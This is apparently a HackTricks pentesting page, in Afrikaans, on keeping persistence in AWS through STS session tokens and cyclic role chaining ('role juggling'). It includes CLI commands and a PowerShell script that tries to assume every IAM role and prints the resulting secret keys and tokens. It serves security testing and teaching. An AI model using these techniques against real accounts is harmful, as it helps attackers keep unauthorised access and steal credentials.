 # AWS - STS Persistensie

{{#include ../../../banners/hacktricks-training.md}}

## STS

Vir meer inligting, toegang:

{{#ref}}
../aws-services/aws-sts-enum.md
{{#endref}}

### Neem rol token

Tydelike tokens kan nie gelys word nie, so om 'n aktiewe tydelike token te handhaaf is 'n manier om persistensie te handhaaf.

<pre class="language-bash"><code class="lang-bash">aws sts get-session-token --duration-seconds 129600

# Met MFA
aws sts get-session-token \
--serial-number <mfa-device-name> \
--token-code <code-from-token>

# Hardeware toestelnaam is gewoonlik die nommer aan die agterkant van die toestel, soos GAHT12345678
<strong># SMS toestelnaam is die ARN in AWS, soos arn:aws:iam::123456789012:sms-mfa/gebruikersnaam
</strong># Virtuele toestelnaam is die ARN in AWS, soos arn:aws:iam::123456789012:mfa/gebruikersnaam
</code></pre>

### Rolketting Juggling

[**Rolketting is 'n erkende AWS kenmerk**](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_terms-and-concepts.html#Role%20chaining), wat dikwels gebruik word om stealth persistensie te handhaaf. Dit behels die vermoë om **'n rol aan te neem wat dan 'n ander rol aanneem**, wat moontlik terugkeer na die aanvanklike rol in 'n **sikliese manier**. Elke keer as 'n rol aangeneem word, word die vervaldatum van die geloofsbriewe verfris. Gevolglik, as twee rolle gekonfigureer is om mekaar onderling aan te neem, laat hierdie opstelling die voortdurende vernuwing van geloofsbriewe toe.

Jy kan hierdie [**instrument**](https://github.com/hotnops/AWSRoleJuggler/) gebruik om die rolketting aan die gang te hou:
```bash
./aws_role_juggler.py -h
usage: aws_role_juggler.py [-h] [-r ROLE_LIST [ROLE_LIST ...]]

optional arguments:
-h, --help            show this help message and exit
-r ROLE_LIST [ROLE_LIST ...], --role-list ROLE_LIST [ROLE_LIST ...]
```
> [!CAUTION]
> Let daarop dat die [find_circular_trust.py](https://github.com/hotnops/AWSRoleJuggler/blob/master/find_circular_trust.py) skrip van daardie Github-bewaarplek nie al die maniere vind waarop 'n rolketting gekonfigureer kan word nie.

<details>

<summary>Code om Rol Juggling vanaf PowerShell uit te voer</summary>
```bash
# PowerShell script to check for role juggling possibilities using AWS CLI

# Check for AWS CLI installation
if (-not (Get-Command "aws" -ErrorAction SilentlyContinue)) {
Write-Error "AWS CLI is not installed. Please install it and configure it with 'aws configure'."
exit
}

# Function to list IAM roles
function List-IAMRoles {
aws iam list-roles --query "Roles[*].{RoleName:RoleName, Arn:Arn}" --output json
}

# Initialize error count
$errorCount = 0

# List all roles
$roles = List-IAMRoles | ConvertFrom-Json

# Attempt to assume each role
foreach ($role in $roles) {
$sessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
try {
$credentials = aws sts assume-role --role-arn $role.Arn --role-session-name $sessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
if ($credentials) {
Write-Host "Successfully assumed role: $($role.RoleName)"
Write-Host "Access Key: $($credentials.AccessKeyId)"
Write-Host "Secret Access Key: $($credentials.SecretAccessKey)"
Write-Host "Session Token: $($credentials.SessionToken)"
Write-Host "Expiration: $($credentials.Expiration)"

# Set temporary credentials to assume the next role
$env:AWS_ACCESS_KEY_ID = $credentials.AccessKeyId
$env:AWS_SECRET_ACCESS_KEY = $credentials.SecretAccessKey
$env:AWS_SESSION_TOKEN = $credentials.SessionToken

# Try to assume another role using the temporary credentials
foreach ($nextRole in $roles) {
if ($nextRole.Arn -ne $role.Arn) {
$nextSessionName = "RoleJugglingTest-" + (Get-Date -Format FileDateTime)
try {
$nextCredentials = aws sts assume-role --role-arn $nextRole.Arn --role-session-name $nextSessionName --query "Credentials" --output json 2>$null | ConvertFrom-Json
if ($nextCredentials) {
Write-Host "Also successfully assumed role: $($nextRole.RoleName) from $($role.RoleName)"
Write-Host "Access Key: $($nextCredentials.AccessKeyId)"
Write-Host "Secret Access Key: $($nextCredentials.SecretAccessKey)"
Write-Host "Session Token: $($nextCredentials.SessionToken)"
Write-Host "Expiration: $($nextCredentials.Expiration)"
}
} catch {
$errorCount++
}
}
}

# Reset environment variables
Remove-Item Env:\AWS_ACCESS_KEY_ID
Remove-Item Env:\AWS_SECRET_ACCESS_KEY
Remove-Item Env:\AWS_SESSION_TOKEN
} else {
$errorCount++
}
} catch {
$errorCount++
}
}

# Output the number of errors if any
if ($errorCount -gt 0) {
Write-Host "$errorCount error(s) occurred during role assumption attempts."
} else {
Write-Host "No errors occurred. All roles checked successfully."
}

Write-Host "Role juggling check complete."
```
</details>

{{#include ../../../banners/hacktricks-training.md}}
